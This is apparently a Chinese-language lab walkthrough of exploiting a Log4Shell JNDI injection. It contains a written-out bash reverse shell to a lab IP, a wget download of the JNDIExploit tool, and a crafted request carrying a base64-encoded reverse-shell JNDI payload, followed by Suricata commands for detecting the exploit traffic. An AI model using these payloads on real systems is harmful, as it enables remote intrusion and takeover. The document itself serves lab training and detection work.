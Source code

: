 命令：bash -i >& /dev/tcp/192.168.56.103/7777 0>&1

成功获取flag

![](./img/窥探.png)


下载仓库
wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip 


![](./img/下载仓库.png)

输入以下命令

url http://192.168.56.216:19825/hello -d 'payload=${jndi:ldap://192.168.56.103:7777/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.103/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'  

## 漏洞利用检测



## 漏洞利用流量检测

docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4


docker exec -it suricata suricata-update -f

docker exec -it suricata tail -f /var/log/suricata/fast.log

输入以上指令

